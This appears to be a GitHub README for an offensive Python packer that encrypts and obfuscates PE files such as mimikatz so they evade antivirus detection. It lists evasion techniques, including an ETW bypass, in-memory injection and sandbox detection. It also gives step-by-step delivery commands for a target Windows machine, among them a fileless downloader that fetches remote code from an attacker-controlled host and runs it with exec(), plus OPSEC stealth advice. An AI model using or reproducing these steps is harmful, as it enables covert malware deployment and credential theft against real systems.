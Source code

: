 ### Invoke-Python-PePacker.py
--------------------------------------
'Invoke-Python-PePacker.py' allows to pack and encrypt offensive PE files (x64 exe) in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted Python script that embeds the PE file that you want to pack and implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Reflective PE injection in-memory using the 'PythonMemoryModule'
  - PE encryption (XOR) and compression (Zlib)
  - Script obfuscation (function and variable names are randomized + multiple encoding layer)
  - ETW bypass in user-mode (patching 'NtTraceEvent')
  - Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
  - Compatible with many offensive security tools (x64 EXE, unmanaged code, no GUI) such as mimikatz, pplblade, etc.

#### USAGE
- STEP 1. Generate an obfuscated and encrypted Python script that contains your PE file (e.g. mimikatz.exe, pplblade.exe).
          If you want to add arguments to pass to your PE file during its execution in-memory, you need to add them in the script 'Invoke-Python-PePacker.py'
          before running it.
```
Basic example for mimikatz
---------------------------
1. Edit the script 'Invoke-Python-PePacker.py'
   + Example 1 - You want to run mimikatz with the argument 'coffee' 
     > pythonmemorymodule.MemoryModule(data={pe_var}, command =' coffee')
   + Example 2 - You want to run mimikatz (interactively) with no argument
     > pythonmemorymodule.MemoryModule(data={pe_var})

2. Run the script 'Invoke-Python-PePacker.py' to generate an obfuscated Python script that embeds mimikatz
+ C:\path\python-3.10.4> python.exe .\Invoke-Python-PePacker.py ".\mimikatz.exe" ".\obfuscated_script.py"
```

- STEP 2. Multiple options exist to download & execute the obfuscated Python script (embeding you offensive PE) on a target Windows computer.

  - Option A: Utilize a portable signed Python 3 interpreter (www.python.org) + Fileless delivery of the obfuscated Python script.
```
1 - Download a Zip archive file on your target Windows computer that contains a signed portable Python 3 interpreter from 'www.python.org'
    as well as the Python 'MemoryModule' from the Github project 'https://github.com/naksyn/PythonMemoryModule'.
    Example:
    --------
    PS C:\temp\python> wget -uri https://your-IP-or-website/python-3.10.4-with-MemoryModule.zip -OutFile C:\temp\python\python.zip
    PS C:\temp\python> tar -xf .\python.zip; del .\python.zip;

2 - Download from a remote web server and execute directly in memory the obfuscated Python script (embeding you offensive PE) on the target
    Windows machine using Python. This fileless delivery technique enhances stealth and helps evade static antivirus detection.
    Example:
    --------
    C:\temp\python> type .\Python-fileless-delivery.py
    #Python3
    import urllib.request
    request = urllib.request.Request('http://your-IP-or-website/obfuscated_script.py')
    result = urllib.request.urlopen(request)
    payload = result.read()
    exec(payload)

    C:\temp\python> python.exe .\Python-fileless-delivery.py 
```
  - Option B: Utilize a portable signed Python 3 interpreter (www.python.org) + Download the obfuscated Python script locally before execution.
```
1 - Download a Zip archive file on your target Windows computer that contains a signed portable Python 3 interpreter from 'www.python.org'
    as well as the 'PythonMemoryModule' from the Github project 'https://github.com/naksyn/PythonMemoryModule'.
    Example:
    --------
    PS C:\temp\python> wget -uri https://your-IP-or-website/python-3.10.4-with-MemoryModule.zip -OutFile C:\temp\python\python.zip
    PS C:\temp\python> tar -xf .\python.zip; del .\python.zip;

2 - Download and store locally on disk the obfuscated Python script (embeding you offensive PE) before executing it with Python.
    While obfuscation and encryption help evade static analysis by most antivirus solutions, this approach may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp\python> powershell -c "wget -uri https://your-IP-or-website/obfuscated_script.py -OutFile C:\temp\python\obfuscated_script.py"
    C:\temp\python> python.exe .\obfuscated_script.py
```
  - Option C: Use PyInstaller to bundle the obfuscated Python script into a single executable (e.g. script.exe) and then download and execute it on a target Windows computer.


#### OPSEC advices
- Remove all existing comments in the script (loader template) before generating the obfuscated Python script (embeding you offensive PE).
- When possible use fileless delivery technique to enhance stealth and evade static antivirus detection.
  
#### LICENSE
  - GNU General Public License v3.0
